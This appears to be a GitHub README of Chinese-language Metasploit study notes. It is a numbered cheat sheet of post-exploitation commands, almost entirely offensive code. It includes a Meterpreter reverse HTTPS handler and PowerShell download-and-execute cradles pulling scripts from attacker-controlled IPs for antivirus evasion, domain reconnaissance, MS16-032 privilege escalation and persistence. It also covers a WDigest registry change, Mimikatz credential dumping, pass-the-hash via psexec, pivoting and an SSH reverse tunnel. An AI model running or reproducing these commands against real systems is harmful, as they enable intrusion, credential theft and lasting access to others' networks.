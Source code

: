 # Metasploit-Study
心得

1、启动console
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set lhost 121.xx.xx.43;set lport 5555;exploit -j"


2、过杀软
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/https.ps1')


3、域探测
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/PowerView.ps1');Invoke-UserHunter"


4、提权
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.3.101/doc/16-032.ps1');Invoke-MS16-032 -Application C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -Commandline ' -nop -exec bypass .\1.ps1'"


5、下载文件
powershell (new-object System.Net.WebClient).DownloadFile('http:/http://121.43.xx.xx:8888/wce.exe,‘wce.exe')


6、抓明文（windows 2008 R2 后需修改注册表项 use post/windows/manage/wdigest_caching）或者 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

7、mimikatz
powershell.exe  -nop -exec bypass  -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
或者
meterpreter load mimikatz

8、hash传递登录
 use exploit/windows/smb/psexec_psh
 
 
9、添加路由
post/multi/manage/autoroute


10、proxychains socks 代理
use auxiliary/server/socks4a


11、持久化nishang
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/Add-Persistence.ps1');Add-Persistence -PayloadURL http://121.xx.xx.43:8888/https5555.ps1"

12、
ssh -N -R 5555:192.168.2.100:5555 root@121.xx.xx.43

